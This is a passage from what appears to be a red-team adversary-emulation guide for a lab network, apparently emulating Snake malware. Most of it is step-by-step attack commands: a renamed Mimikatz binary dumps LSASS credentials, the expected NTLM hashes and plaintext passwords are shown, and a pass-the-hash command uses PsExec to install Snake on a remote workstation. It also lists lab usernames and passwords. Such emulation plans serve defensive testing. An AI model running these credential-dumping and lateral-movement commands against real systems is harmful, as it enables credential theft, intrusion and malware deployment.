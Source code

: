 * Open command prompt (cmd) as an administrator. If prompted for credentials, use the following:

| Username      | Password |
| :--------:    | :---------------: |
| nk\EgleAdmin  | Producer1! |

* In the admin cmd prompt, run Mimikatz to dump all NTLM hashes from `LSASS.exe`:
```bat
C:\Windows\System32\loadperf.exe pr::d slsa::lop quit 
```
* :heavy_exclamation_mark: Verify that the password and NTLM hash for `ZilvinasAdmin` appears in the output.
  * In the Command Prompt, press CTRL+F and in the "Find what:" field, enter
  `* Username : ZilvinasAdmin`
  * You may have to go up a few results to find the hash and password
  * The output should contain:
  * >    ```
    >        * Username : ZilvinasAdmin
    >        * Domain   : NK
    >        * NTLM     : f3fcd61f987a97da49ce5f650b4e6539
    >        * SHA1     : fc8c801521140666c793108b67716caf4c4189f4
    >        * DPAPI    : b06d7bea8849897b811e1d73ab22726c
    >        tsPkG :	
    >    --
    >        * Username : ZilvinasAdmin
    >        * Domain   : NK
    >        * Password : Producer2!
    >        kErberoS :	
    >        * Username : ZilvinasAdmin
    >        * Domain   : NK.LOCAL
    >        * Password : (null)
    >        sSp :	
    >        crEdMan :
    >    ```

* Wait 1 minute and then in the same elevated cmd prompt, perform pass-the-hash via MimiKatz using `ZilvinasAdmin`'s NTLM hash to run PsExec and install Snake on the target workstation.
```bat
C:\Windows\System32\loadperf.exe pr::d "slsa::htp /user:ZilvinasAdmin /ntlm:f3fcd61f987a97da49ce5f650b4e6539 /domain:nk.local /remotepc:uosis /pexe:C:\Windows\System32\fs_mgr.exe /sys:1 /prun:C:\Windows\System32\cmu_svc.exe" quit
```

* Check both the `berzas (10.100.30.204)` and `uosis (10.100.40.102)` RDP
sessions for indicators of blocked activity.

:arrow_right: Return to your RDP session to `uosis (10.100.40.102)` as `Zilvinas`:

* Open Edge and navigate to `https://drebule.nk.local/owa`. Log in as `Zilvinas`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Zilvinas  | Producer2! |

